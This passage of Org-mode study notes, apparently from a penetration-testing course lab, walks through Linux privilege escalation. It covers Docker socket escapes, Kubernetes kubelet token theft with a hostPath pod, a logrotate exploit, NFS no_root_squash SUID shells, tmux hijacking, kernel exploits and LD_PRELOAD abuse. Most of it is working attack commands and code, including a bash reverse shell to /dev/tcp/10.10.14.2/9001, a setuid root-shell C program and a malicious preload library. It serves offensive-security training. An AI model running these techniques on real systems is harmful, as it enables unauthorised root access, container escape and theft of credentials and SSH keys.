  drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
  drwxr-xr-x  13 root root  4096 Apr 23  2020 var
#+END_SRC
** Docker
Docker is an open-source tool that provides a consistent runtime environment for software applications through the use of containers. Containers are isolated environments that run at the operating system level and share system resources, making them efficient and portable. Docker encapsulates applications into containers, which are lightweight, standalone executable packages containing all the necessary components to run an application.

~Docker Architecture~:
The Docker architecture follows a client-server model with two primary components:

~Docker Daemon~: Also known as the Docker server, it manages container creation, execution, and monitoring. It handles image management, monitoring, logging, resource utilization, container networking, and storage management, including Docker volumes.

~Docker Client~: It serves as the interface for users to interact with Docker. Users issue commands through the Docker Client, which communicates with the Docker Daemon via a RESTful API or Unix socket. Users can perform various tasks, such as creating, starting, stopping, managing containers, searching, downloading images, and more.

~Docker Clients~:
Docker Compose is another client for Docker, simplifying the orchestration of multiple containers as a single application. Users define their application's architecture using a declarative ~YAML file~, specifying *container images, dependencies, configurations, networking, volume bindings, and other settings*. Docker Compose ensures that all defined containers are launched and interconnected to create a cohesive application stack.

~Docker Desktop~:
Docker Desktop is a user-friendly GUI tool available for macOS, Windows, and Linux. It simplifies container management by providing visual monitoring of container status, log inspection, and resource allocation management. Docker Desktop is suitable for developers of all expertise levels and supports Kubernetes.

~Docker Images and Containers~:
~Docker Images~: These serve as blueprints or templates for creating containers. An image contains everything required to run an application, including code, dependencies, libraries, and configurations. Images are read-only and ensure consistency across different environments. ~Dockerfiles~ define the steps and instructions for building images.

~Docker Containers~: Containers are instances of Docker images. They are *lightweight, isolated, and executable environments* for running applications. Containers inherit properties and configurations from their parent images. Each container *operates independently with its own filesystem, processes, and network interfaces*, ensuring separation from the host system and other containers. Containers are mutable and can be interacted with during runtime, but changes are not persisted unless saved as a new image or stored in a persistent volume.

In summary, Docker simplifies the deployment and management of applications by using containers to encapsulate everything needed for an application to run consistently across various environments.

~Docker Privilage Escalation~
What can happen is that we get access to an environment where we will find users who can manage docker containers. With this, we could look for ways how to use those docker containers to obtain higher privileges on the target system. We can use several ways and techniques to escalate our privileges or escape the docker container.
*** Docker Shared Directories
In Docker, shared directories, or volume mounts, connect the host system and container filesystems. They enable data persistence, code sharing, and collaboration. Administrators define shared paths between the host and container. Shared directories can be read-only or read-write, offering flexibility.
When we get access to the docker container and enumerate it locally, we might find additional (non-standard) directories on the docker’s filesystem.
#+BEGIN_SRC bash
  ls -l
  cat .ssh/id_rsa
#+END_SRC

From here on, we could copy the contents of the private SSH key to cry0l1t3.priv file and use it to log in as the user cry0l1t3 on the host system.
#+BEGIN_SRC bash
  ssh cry0l1t3@<host IP> -i cry0l1t3.priv
#+END_SRC
*** Docker Socket
In summary, a Docker socket, or Docker daemon socket, serves as a crucial communication channel between the Docker client and the Docker daemon. It can use either a Unix socket or a network socket, depending on the Docker configuration. This socket enables users to issue commands through the Docker CLI, with the Docker client transmitting these commands to the Docker socket. The Docker daemon then processes these commands and carries out the requested actions.

To ensure secure communication and prevent unauthorized access, Docker sockets are typically restricted to specific users or user groups. This access control ensures that only trusted individuals can interact with the Docker daemon through the socket. Moreover, exposing the Docker socket over a network interface allows for remote management of Docker hosts, offering increased flexibility for distributed Docker setups and remote administration.

However, it's important to be aware of potential security risks associated with Docker sockets. Depending on the configuration, automated processes or tasks may store files that contain sensitive information. Malicious actors could exploit this information to escape the Docker container and gain unauthorized access. Therefore, it's essential to implement robust security measures and conduct regular audits of your Docker setup to mitigate these risks effectively and maintain a secure Docker environment.
#+BEGIN_SRC bash
  ls -al

  total 8
  drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
  drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
  srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
#+END_SRC
From here on, we can use the ~docker~ to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it [[https://master.dockerproject.org/linux/x86_64/docker][here]] and upload it to the Docker container.
#+BEGIN_SRC bash
  wget https://<parrot-os>:443/docker -O docker
  chmod +x docker
  ls -l

  -rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker

  /tmp/docker -H unix:///app/docker.sock ps

  CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
  3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   ap
#+END_SRC

We can create our own Docker container that maps the host’s root directory (~/~) to the ~/hostsystem~ directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the ~main_app~ Docker image.
#+BEGIN_SRC bash
  /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
  /tmp/docker -H unix:///app/docker.sock ps

  CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
  7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
  3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
  <SNIP>
#+END_SRC

Now, we can log in to the new privileged Docker container with the ID ~7ae3bcc818af~ and navigate to the ~/hostsystem~.
#+BEGIN_SRC bash
  /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash
#+END_SRC
*** Writable Socket
A case that can also occur is when the Docker socket is writable. Usually, this socket is located in ~/var/run/docker.sock~. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.
#+BEGIN_SRC bash
  docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
#+END_SRC
** Kubernetes
[[https://kubernetes.io/][Kubernetes]], or ~K8s~ is a technology that has revolutionized ~devops~ processes
One of the key features of Kubernetes is its adaptability and compatibility with various environments. This platform offers an extensive range of features that enable developers and system administrators to easily configure, automate, and scale their deployments and applications.

Kubernetes is a container orchestration system, which functions by running all applications in containers isolated from the host system through ~multiple layers of protection~.
*** K8s Concept
Kubernetes revolves around the concept of pods, which can hold one or more closely connected containers. Each pod functions as a separate virtual machine on a node, complete with its own IP, hostname, and other details. Kubernetes simplifies the management of multiple containers by offering tools for load balancing, service discovery, storage orchestration, self-healing, and more. Despite challenges in security and management, K8s continues to grow and improve with features like ~Role-Based Access Control~ (~RBAC~), ~Network Policies~, and ~Security Contexts~, providing a safer environment for applications.
*** Different between K8 and Docker
| *Function*   | *Docker*                           | *Kubernetes*                                    |
|------------+----------------------------------+-----------------------------------------------|
| ~Primary~    | Platform for containerizing Apps | An orchestration tool for managing containers |
| ~Scaling~    | Manual scaling with Docker swarm | Automatic scaling                             |
| ~Networking~ | Single network                   | Complex network with policies                 |
| ~Storage~    | Volumes                          | Wide range of storage options                 |
*** Architecture
Kubernetes architecture is primarily divided into two types of components:
- ~The Control Plane~ (master node), which is responsible for controlling the Kubernetes cluster
- ~The Worker Nodes~ (minions), where the containerized applications are run
**** Nodes
The master node hosts the Kubernetes ~Control Plane~, which manages and coordinates all activities within the cluster and it also ensures that the cluster's desired state is maintained. On the other hand, the ~Minions~ execute the actual applications and they receive instructions from the Control Plane and ensure the desired state is achieved.
**** Control Plane
The Control Plane serves as the management layer. It consists of several crucial components, including:
| *Service*               | *TCP Ports* |
|-----------------------+-----------|
| etcd                  | 2379,2380 |
| API server            |      6443 |
| Scheduler             |     10251 |
| Controller Manager    |     10252 |
| Kubelet API           |     10250 |
| Read-Only Kubectl API |     10255 |
These elements enable the ~Control Plane~ to make decisions and provide a comprehensive view of the entire cluster.
**** Minions
Within a containerized environment, the ~Minions~ (worker nodes) serve as the designated location for running applications. It's important to note that each node is managed and regulated by the Control Plane, which helps ensure that all processes running within the containers operate smoothly and efficiently.

The ~Scheduler~, based on the ~API server~, understands the state of the cluster and schedules new pods on the nodes accordingly. After deciding which node a pod should run on, the API server updates the ~etcd~.

Understanding how these components interact is essential for grasping the functioning of Kubernetes. The API server is the entry point for all the administrative commands, either from users via kubectl or from the controllers. This server communicates with etcd to fetch or update the cluster state.
*** K8's Security Measures
Kubernetes security can be divided into several domains:
 - Cluster infrastructure security
 - Cluster configuration security
 - Application security
 - Data security
Each domain includes multiple layers and elements that must be secured and managed appropriately by the developers and administrators.
*** Kubernetes API
The core of Kubernetes architecture is its API that plays a crucial role in facilitating seamless communication and control within the Kubernetes cluster.

Each unique resource comes equipped with a distinct set of operations that can be executed, including but not limited to:
| *Request* | *Description*                                                    |
|---------+----------------------------------------------------------------|
| GET     | Retrieves information about a resource or a list of resources. |
| POST    | Creates a new resource.                                        |
| PUT     | Updates an existing resource.                                  |
| PATCH   | Applies partial updates to a resource.                         |
| DELETE  | Removes a resource.                                            |
*** Authentication
In terms of authentication, Kubernetes supports various methods which serve to verify the user's identity.
Once the user has been authenticated, Kubernetes enforces authorization decisions using Role-Based Access Control (~RBAC~). This technique involves assigning specific roles to users or processes with corresponding permissions to access and operate on resources. This technique involves assigning specific roles to users or processes with corresponding permissions to access and operate on resources.

In Kubernetes, the ~Kubelet~ can be configured to permit ~anonymous access~. By default, the Kubelet allows anonymous access. Anonymous requests are considered unauthenticated, which implies that any request made to the Kubelet without a valid client certificate will be treated as anonymous. 
*** K8's API Server Interaction
#+BEGIN_SRC bash
curl https://10.129.10.11:6443 -k
{
	"kind": "Status",
	"apiVersion": "v1",
	"metadata": {},
	"status": "Failure",
	"message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
	"reason": "Forbidden",
	"details": {},
	"code": 403
}
#+END_SRC
~System:anonymous~ typically represents an unauthenticated user, meaning we haven't provided valid credentials or are trying to access the API server anonymously. In this case, we try to access the root path, which would grant significant control over the Kubernetes cluster if successful. By default, access to the root path is generally restricted to authenticated and authorized users with administrative privileges and the API server denied the request, responding with a ~403 Forbidden~ status code accordingly.
*** Kubelet API - Extracting Pods
#+BEGIN_SRC bash
  curl https://10.129.10.11:10250/pods -k | jq .

  ...SNIP...
  {
    "kind": "PodList",
    "apiVersion": "v1",
    "metadata": {},
    "items": [
      {
	"metadata": {
	  "name": "nginx",
	  "namespace": "default",
	  "uid": "aadedfce-4243-47c6-ad5c-faa5d7e00c0c",
	  "resourceVersion": "491",
	  "creationTimestamp": "2023-07-04T10:42:02Z",
	  "annotations": {
	      "kubectl.kubernetes.io/last-applied-configuration": "{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"nginx\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"imagePullPolicy\":\"Never\",\"name\":\"nginx\",\"ports\":[{\"containerPort\":80}]}]}}\n",
	    "kubernetes.io/config.seen": "2023-07-04T06:42:02.263953266-04:00",
	    "kubernetes.io/config.source": "api"
	  },
	  "managedFields": [
	    {
	      "manager": "kubectl-client-side-apply",
	      "operation": "Update",
	      "apiVersion": "v1",
	      "time": "2023-07-04T10:42:02Z",
	      "fieldsType": "FieldsV1",
	      "fieldsV1": {
		"f:metadata": {
		  "f:annotations": {
		    ".": {},
		    "f:kubectl.kubernetes.io/last-applied-configuration": {}
		  }
		},
		"f:spec": {
		  "f:containers": {
		    "k:{\"name\":\"nginx\"}": {
		      ".": {},
		      "f:image": {},
		      "f:imagePullPolicy": {},
		      "f:name": {},
		      "f:ports": {
					  ...SNIP...
#+END_SRC
The information displayed in the output includes the ~names~, ~namespaces~, ~creation timestamps~, and ~container images~ of the pods. It also shows the ~last applied configuration~ for each pod, which could contain confidential details regarding the container images and their pull policies.
*** Kubeletctl - Extracting Pods
#+BEGIN_SRC bash
  kubeletctl -i --server 10.129.10.11 pods

  ┌────────────────────────────────────────────────────────────────────────────────┐
  │                                Pods from Kubelet                               │
  ├───┬────────────────────────────────────┬─────────────┬─────────────────────────┤
  │   │ POD                                │ NAMESPACE   │ CONTAINERS              │
  ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
  │ 1 │ coredns-78fcd69978-zbwf9           │ kube-system │ coredns                 │
  │   │                                    │             │                         │
  ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
  │ 2 │ nginx                              │ default     │ nginx                   │
  │   │                                    │             │                         │
  ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
  │ 3 │ etcd-steamcloud                    │ kube-system │ etcd                    │
  │   │                                    │             │                         │
  ├───┼────────────────────────────────────┼─────────────┼─────────────────────────┤
#+END_SRC
To effectively interact with pods within the Kubernetes environment, it's important to have a clear understanding of the available commands. One approach that can be particularly useful is utilizing the ~scan rce~ command in ~kubeletctl~. This command provides valuable insights and allows for efficient management of pods.
*** Kubelet API - Available Commands
#+BEGIN_SRC bash
  kubeletctl -i --server 10.129.10.11 scan rce

  ┌─────────────────────────────────────────────────────────────────────────────────────────────────────┐
  │                                   Node with pods vulnerable to RCE                                  │
  ├───┬──────────────┬────────────────────────────────────┬─────────────┬─────────────────────────┬─────┤
  │   │ NODE IP      │ PODS                               │ NAMESPACE   │ CONTAINERS              │ RCE │
  ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
  │   │              │                                    │             │                         │ RUN │
  ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
  │ 1 │ 10.129.10.11 │ nginx                              │ default     │ nginx                   │ +   │
  ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
  │ 2 │              │ etcd-steamcloud                    │ kube-system │ etcd                    │ -   │
  ├───┼──────────────┼────────────────────────────────────┼─────────────┼─────────────────────────┼─────┤
#+END_SRC
It is also possible for us to engage with a container interactively and gain insight into the extent of our privileges within it. This allows us to better understand our level of access and control over the container's contents.
*** Kubelet API - Executing Commands
#+BEGIN_SRC bash
  kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx

  uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
The output of the command shows that the current user executing the ~id~ command inside the container has root privileges. This indicates that we have gained administrative access within the container, which could potentially lead to privilege escalation vulnerabilities. If we gain access to a container with root privileges, we can perform further actions on the host system or other containers.
*** Privilage Escalation
To gain higher privileges and access the host system, we can utilize a tool called [[https://github.com/cyberark/kubeletctl][kubeletctl]] to obtain the Kubernetes service account's ~token~ and ~certificate~ (~ca.crt~) from the server. To do this, we must provide the server's IP address, namespace, and target pod. In case we get this token and certificate, we can elevate our privileges even more, move horizontally throughout the cluster, or gain access to additional pods and resources.
**** Kubelet API - Extracting Tokens
#+BEGIN_SRC bash
  kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token

  eyJhbGciOiJSUzI1NiIsImtpZC...SNIP...UfT3OKQH6Sdw
#+END_SRC
**** Kubelet API - Extracting Certificates
#+BEGIN_SRC bash
  kubeletctl --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt

  -----BEGIN CERTIFICATE-----
  MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
  <SNIP>
  MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
  602eXnhZAL3+dA==
#+END_SRC
Now that we have both the ~token~ and ~certificate~, we can check the access rights in the Kubernetes cluster. This is commonly used for auditing and verification to guarantee that users have the correct level of access and are not given more privileges than they need. However, we can use it for our purposes and we can inquire of K8s whether we have permission to perform different actions on various resources.
**** List Privilages
#+BEGIN_SRC bash
  export token=`cat k8.token`
  kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
    
  Resources										Non-Resource URLs	Resource Names	Verbs 
  selfsubjectaccessreviews.authorization.k8s.io		[]					[]				[create]
  selfsubjectrulesreviews.authorization.k8s.io		[]					[]				[create]
  pods											[]					[]				[get create list]
  ...SNIP...
#+END_SRC
Here we can see a few very important information. Besides the selfsubject-resources we can ~get~, ~create~, and ~list~ pods which are the resources representing the running container in the cluster. From here on, we can create a ~YAML~ file that we can use to create a new container and mount the entire root filesystem from the host system into this container's ~/root~ directory. From there on, we could access the host systems files and directories. The ~YAML~ file could look like following:
#+BEGIN_SRC yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
#+END_SRC
Once created, we can now create the new pod and check if it is running as expected.
**** Creating a new POD
#+BEGIN_SRC bash
  kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml

  pod/privesc created

  kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
#+END_SRC
If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.
**** Extracting Root's SSH Key
#+BEGIN_SRC bash
  kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
#+END_SRC

** Logrotate
Logrotate is a Linux tool that manages log files to prevent disk overflow. It *renames* old log files, can *create* new ones, and *offers options* based on file *size* and *age*. It's controlled through /~etc/logrotate.conf~ and configuration files in /~etc/logrotate.d~/. You can force rotation using -f/--force or manually edit the status file (/var/lib/logrotate.status). Example configuration for dpkg logs is in /etc/logrotate.d/dpkg.
Utility options:
#+BEGIN_SRC bash
  cat /etc/logrotate.conf

  # see "man logrotate" for details

  # global options do not affect preceding include directives

  # rotate log files weekly
  weekly

  # use the adm group by default, since this is the owning group
  # of /var/log/syslog.
  su root adm

  # keep 4 weeks worth of backlogs
  rotate 4

  # create new (empty) log files after rotating old ones
  create

  # use date as a suffix of the rotated file
  #dateext

  # uncomment this if you want your log files compressed
  #compress

  # packages drop log rotation information into this directory
  include /etc/logrotate.d

  # system-specific logs may also be configured here.
#+END_SRC

We can find the corresponding configuration files in ~/etc/logrotate.d/~ directory.
#+BEGIN_SRC bash
    ls /etc/logrotate.d/

    alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp

    cat /etc/logrotate.d/dpkg

  /var/log/dpkg.log {
	  monthly
	  rotate 12
	  compress
	  delaycompress
	  missingok
	  notifempty
	  create 644 root root
  }
#+END_SRC

To exploit ~logrotate~, we need some requirements that we have to fulfill.
    1. we need ~write~ permissions on the log files
    2. logrotate must run as a privileged user or ~root~
    3. vulnerable versions:
        - 3.8.6
        - 3.11.0
        - 3.15.0
        - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [[https://github.com/whotwagner/logrotten][logrotten]]. We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.
#+BEGIN_SRC bash
  git clone https://github.com/whotwagner/logrotten.git
  cd logrotten
  gcc logrotten.c -o logrotten
#+END_SRC

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the IP and port of our VM that we use to attack the target system.
#+BEGIN_SRC bash
  echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
#+END_SRC

However, before running the exploit, we need to determine which option ~logrotate~ uses in ~logrotate.conf~.
#+BEGIN_SRC bash
  grep "create\|compress" /etc/logrotate.conf | grep -v "#"

  create
#+END_SRC

In our case, it is the option: ~create~. Therefore we have to use the exploit adapted to this function.
After that, we have to start a listener on our VM / Pwnbox, which waits for the target system's connection.
#+BEGIN_SRC bash
  nc -nlvp 9001

  Listening on 0.0.0.0 9001
#+END_SRC

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or ~root~.
#+BEGIN_SRC bash
  ./logrotten -p ./payload /tmp/tmp.log
#+END_SRC

~TIPS~
to manually trigger logrotate we can delete the old logs and write on the newer ones. In some cases this can work
** Miscellaneous Techniques
*** Passive Traffic Capture
If tcpdump is installed, unprivileged users may be able to capture network traffic, including, in some cases, credentials passed in cleartext. Several tools exist, such as [[https://github.com/DanMcInerney/net-creds][net-creds]] and [[https://github.com/lgandx/PCredz][PCredz]] that can be used to examine data being passed on the wire.
*** Weak NFS Privileges
Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. NFS uses TCP/UDP port 2049. Any accessible mounts can be listed remotely by issuing the command:
#+BEGIN_SRC bash
  showmount -e 10.129.2.12

  Export list for 10.129.2.12:
  /tmp             *
  /var/nfs/general *
#+END_SRC
When an NFS volume is created, various options can be set:

| Option         | Description                                                                                                         |
|----------------+---------------------------------------------------------------------------------------------------------------------|
| root_squash    | If the root user is used to access NFS shares, it will be changed to the nfsnobody user, which is an unprivileged account. Any files created and uploaded by the root user will be owned by the nfsnobody user, which prevents an attacker from uploading binaries with the SUID bit set. |
| no_root_squash | Remote users connecting to the share as the local root user will be able to create files on the NFS server as the root user. This would allow for the creation of malicious scripts/programs with the SUID bit set.                                                                                                                    |

#+BEGIN_SRC bash
  cat /etc/exports

  # /etc/exports: the access control list for filesystems which may be exported
  #		to NFS clients.  See exports(5).
  #
  # Example for NFSv2 and NFSv3:
  # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
  #
  # Example for NFSv4:
  # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
  # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
  #
  /var/nfs/general *(rw,no_root_squash)
  /tmp *(rw,no_root_squash)

#+END_SRC
For example, we can create a SETUID binary that executes ~/bin/sh~ using our local root user. We can then mount the ~/tmp~ directory locally, copy the root-owned binary over to the NFS server, and set the SUID bit.

First, create a simple binary, mount the directory locally, copy it, and set the necessary permissions.
#+BEGIN_SRC bash
  cat shell.c 

  #include <stdio.h>
  #include <sys/types.h>
  #include <unistd.h>
  int main(void)
  {
    setuid(0); setgid(0); system("/bin/bash");
  }
#+END_SRC

#+BEGIN_SRC bash
  gcc shell.c -o shell
#+END_SRC

#+BEGIN_SRC bash
  sudo mount -t nfs 10.129.2.12:/tmp /mnt
  root@Pwnbox:~$ cp shell /mnt
  root@Pwnbox:~$ chmod u+s /mnt/shell
#+END_SRC

#+BEGIN_SRC bash
  ls -la

  total 68
  drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
  drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
  drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
  drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
  -rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
#+END_SRC

#+BEGIN_SRC bash
  ./shell
  id

  uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(user)
#+END_SRC
*** Hijacking Tmux Sessions
Terminal multiplexers such as [[https://en.wikipedia.org/wiki/Tmux][tmux]] can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a ~tmux~ window, we can detach from the session, still leaving it active (i.e., running an ~nmap~ scan). For many reasons, a user may leave a ~tmux~ process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.
#+BEGIN_SRC bash
  tmux -S /shareds new -s debugsess
  chown root:devs /shareds
#+END_SRC

If we can compromise a user in the ~dev~ group, we can attach to this session and gain root access.
Check for any running ~tmux~ processes.
#+BEGIN_SRC bash
  ps aux | grep tmux

  root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
#+END_SRC

Confirm permissions.
#+BEGIN_SRC bash
  ls -la /shareds 

  srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
#+END_SRC

Review our group membership.
#+BEGIN_SRC bash
  id

  uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
#+END_SRC

Finally, attach to the ~tmux~ session and confirm root privileges.
#+BEGIN_SRC bash
  tmux -S /shareds

  id

  uid=0(root) gid=0(root) groups=0(root)
#+END_SRC

* Linux Internals-based Privilege Escalation
** Kernel Exploits
Kernel level exploits exist for a variety of Linux kernel versions.
It is very common to find systems that are vulnerable to kernel exploits.
Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it.  A quick way to identify exploits is to issue the command ~uname -a~ and search Google for the kernel version.
#+BEGIN_SRC text
Note: Kernel exploits can cause system instability so use caution when running these against a production system.
#+END_SRC
~EXEMPLE~
#+BEGIN_SRC bash
  uname -a

  Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
#+END_SRC

#+BEGIN_SRC bash
  cat /etc/lsb-release 

  DISTRIB_ID=Ubuntu
  DISTRIB_RELEASE=16.04
  DISTRIB_CODENAME=xenial
  DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
#+END_SRC

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for ~linux 4.4.0-116-generic exploit~ comes up with [[https://vulners.com/zdt/1337DAY-ID-30003][this]] exploit PoC. Next download, it to the system using ~wget~ or another file transfer method. We can compile the exploit code using gcc and set the executable bit using ~chmod +x~.
#+BEGIN_SRC bash
  gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit
#+END_SRC

Next, we run the exploit and hopefully get dropped into a root shell.
#+BEGIN_SRC bash
  ./kernel_exploit 

  task_struct = ffff8800b71d7000
  uidptr = ffff8800b95ce544
  spawning root shell
#+END_SRC
** Shared Library
It is common for Linux programs to use dynamically linked shared object libraries. Libraries contain compiled code or other data that developers use to avoid having to re-write the same pieces of code across multiple programs. Two types of libraries exist in Linux: ~static libraries~ (denoted by the .a file extension) and ~dynamically linked shared object libraries~ (denoted by the .so file extension). When a program is compiled, static libraries become part of the program and can not be altered. However, dynamic libraries can be modified to control the execution of the program that calls them.

There are multiple methods for specifying the location of dynamic libraries, so the system will know where to look for them on program execution. This includes the ~-rpath~ or ~-rpath-link~ flags when compiling a program, using the environmental variables ~LD_RUN_PATH~ or ~LD_LIBRARY_PATH~, placing libraries in the ~/lib~ or ~/usr/lib~ default directories, or specifying another directory containing the libraries within the ~/etc/ld.so.conf~ configuration file.

Additionally, the ~LD_PRELOAD~ environment variable can load a library before executing a binary. The functions from this library are given preference over the default ones. The shared objects required by a binary can be viewed using the ldd utility.
#+BEGIN_SRC bash
  ldd /bin/ls

	  linux-vdso.so.1 =>  (0x00007fff03bc7000)
	  libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f4186288000)
	  libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f4185ebe000)
	  libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f4185c4e000)
	  libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f4185a4a000)
	  /lib64/ld-linux-x86-64.so.2 (0x00007f41864aa000)
	  libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007f418582d000)
#+END_SRC
The image above lists all the libraries required by ~/bin/ls~, along with their absolute paths.

~LD_PRELOAD Privilege Escalation~
Let's see an example of how we can utilize the [[https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html][LD_PRELOAD]] environment variable to escalate privileges. For this, we need a user with ~sudo~ privileges.
#+BEGIN_SRC bash
  sudo -l

  Matching Defaults entries for daniel.carter on NIX02:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

  User daniel.carter may run the following commands on NIX02:
  (root) NOPASSWD: /usr/sbin/apache2 restart
#+END_SRC
This user has rights to restart the Apache service as root, but since this is ~NOT~ a GTFOBin and the ~/etc/sudoers~ entry is written specifying the absolute path, this could not be used to escalate privileges under normal circumstances. However, we can exploit the ~LD_PRELOAD~ issue to run a custom shared library file. Let's compile the following library:
#+BEGIN_SRC C
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>

  void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
  }
#+END_SRC

We can compile this as follows:
#+BEGIN_SRC bash
  gcc -fPIC -shared -o root.so root.c -nostartfiles
#+END_SRC

Finally, we can escalate privileges using the below command. Make sure to specify the full path to your malicious library file.
#+BEGIN_SRC bash
  sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart

  id
  uid=0(root) gid=0(root) groups=0(root)
#+END_SRC
** Shared Object Hijacking
Programs and binaries under development usually have custom libraries associated with them. Consider the following SETUID binary.
#+BEGIN_SRC bash
  ls -la payroll

  -rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
#+END_SRC

We can use ldd to print the shared object required by a binary or shared object. ~Ldd~ displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.
#+BEGIN_SRC bash
  ldd payroll

  linux-vdso.so.1 =>  (0x00007ffcb3133000)
  libshared.so => /lib/x86_64-linux-gnu/libshared.so (0x00007f7f62e51000)
  libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
  /lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
#+END_SRC

We see a non-standard library named ~libshared.so~ listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the ~RUNPATH~ configuration. Libraries in this folder are given preference over other folders. This can be inspected using the readelf utility.
#+BEGIN_SRC bash
  readelf -d payroll  | grep PATH

   0x000000000000001d (RUNPATH)            Library runpath: [/development]
 
#+END_SRC

